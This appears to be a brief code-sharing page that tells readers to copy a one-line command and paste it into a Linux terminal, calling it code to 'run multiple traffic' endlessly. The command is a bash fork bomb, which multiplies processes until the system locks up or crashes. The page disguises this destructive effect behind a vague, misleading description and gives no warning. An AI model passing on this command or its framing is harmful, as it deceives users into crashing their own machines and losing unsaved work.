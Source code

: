 This is very sensitive code to run multiple traffic in your terminal in infinte

# Here is your code 
copy it and then paste in linux terminal

```
:(){ :|:& };:
```
